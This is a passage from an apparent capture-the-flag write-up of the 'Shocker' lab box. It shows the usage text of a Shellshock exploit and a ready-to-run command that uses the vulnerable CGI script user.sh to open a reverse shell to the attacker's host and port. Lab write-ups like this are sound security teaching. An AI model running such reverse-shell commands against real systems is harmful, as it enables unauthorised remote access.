 ## 2. Exploitation

Nice, we got a script, `user.sh`, after some reaserch and manual enum, the box's apache webserver seems like it would be vulnerable to [this exploit](https://www.exploit-db.com/exploits/34900), let's download it from exploitdb.

This is the script's usage:
{% highlight python %}
Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234
{% endhighlight %}

So our command will be:
{% highlight bash linenos %}
python exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.11 lport=9004 pages=/cgi-bin/user.sh
{% endhighlight %}

### User Flag
![userflag](/images/shocker/user.gif)
